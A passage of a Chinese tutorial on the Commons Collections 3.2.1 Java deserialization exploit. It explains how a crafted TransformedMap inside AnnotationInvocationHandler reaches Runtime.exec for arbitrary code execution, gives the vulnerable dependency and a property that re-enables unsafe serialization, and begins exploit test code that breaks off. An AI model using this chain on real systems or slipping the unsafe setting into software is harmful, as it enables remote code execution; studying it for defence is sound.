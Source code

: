   ```java
              Class var7 = (Class)var3.get(var6);
              if (var7 != null) {
                  Object var8 = var5.getValue();
                  if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {


                      var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));


                  }
              }
          }
    
      }
  }
  ```
- 于是我们可以实例化一个AnnotationInvocationHandler类，将其成员变memberValues赋值为精心构造的恶意TransformedMap对象。然后将其序列化，提交给未做安全检查的Java应用。
- Java应用在进行反序列化操作时，执行了readObject()函数，修改了Map的Value，则会触发TransformedMap的变换函数transform()，再通过反射链调用了Runtime.getRuntime.exec("XXX") 命令，最终就可以执行我们的任意代码了，一切是那么的天衣无缝！
- 在 JDK 8 中，AnnotationInvocationHandler 在重写的 readObject() 方法中移除了 memberValue.setValue的调用，从而使我们上面构造的 AnnotationInvocationHandler + TransformedMap失效。当然还有其他的利用方式，具体见ysoserial.jar工具。
- maven依赖:

  ```
  <dependency>
      <groupId>commons-collections</groupId>
      <artifactId>commons-collections</artifactId>
      <version>3.2.1</version>
  </dependency>
  ```
- 因为安全机制高版本（3.2.2版本及以上）`commons     org.apache.commons.collections.functors.InvokerTransformer`类无法使用

  - 在java代码中使用下列命令，可以在3.22版本启动该方法

    ````java
    System.setProperty("org.apache.commons.collections.enableUnsafeSerialization","true");`
    ````
- 测试代码

  ```java
  package test;
  
  import java.io.FileInputStream;
  import java.io.FileOutputStream;
  import java.io.IOException;
  import java.io.ObjectInputStream;
  import java.io.ObjectOutputStream;
  import java.lang.annotation.Target;
  import java.lang.reflect.Constructor;
  import java.util.HashMap;
  import java.util.Map;
  import java.util.Map.Entry;
  
  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;
  import org.apache.commons.collections.map.TransformedMap;
  
  public class Annotest {
      public static void main(String[] args) throws Exception{
          Transformer[] transformers = new Transformer[] {
  ```